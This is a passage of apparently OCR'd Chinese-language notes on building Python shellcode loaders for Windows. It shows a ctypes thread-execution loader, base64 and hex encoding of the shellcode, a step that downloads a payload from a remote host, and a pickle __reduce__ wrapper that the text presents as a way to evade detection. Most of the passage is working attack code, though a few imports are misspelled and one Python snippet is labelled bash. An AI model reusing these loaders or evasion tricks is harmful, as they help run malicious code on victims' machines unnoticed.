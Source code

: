 ```python
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

# 等待上面创建的线程运行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))
```

- 对shellcode进行b64处理

```python
shellcode = base64.b64decode(_shellcode)
shellcode = bytearray(shellcode)
```

- hex处理

```bash
shellcode = bytearray(_shellcode.decode("hex"))
```

#### 远程wget

注意尽量避免出现特殊字符，如果有 二次处理

```python
import urllib.request, base64, codeces
shellcode = urllib.request.urlopen('http://192.168.1.1:8000/test.txt').read()	# b64格式的payload
shellcode = base64.b64decode(shellcode)
shellcode = codecs.escape_decode(shellcode)[0]
shellcode = bytearray(shellcode)
```

#### pickle反序列化

ctf学到的技巧不能丢，比单纯的hex, xor, b64稍微强一点点，可以配合上面的远程wget方式绕过

```python
import pickle, urllib.requests, base64, codeces

# 生成
shellcode = """"""	# 上面基础款的全部代码
class A(object):
    def __reduce__(self):
        return(exec, (shellcode,))

ret = pickle.dumps(A())
ret_base64 = base64.b64encode(ret)
print(ret_base64)

# 加载
pickle.loads(base64.b64decode(ret_base64))
```
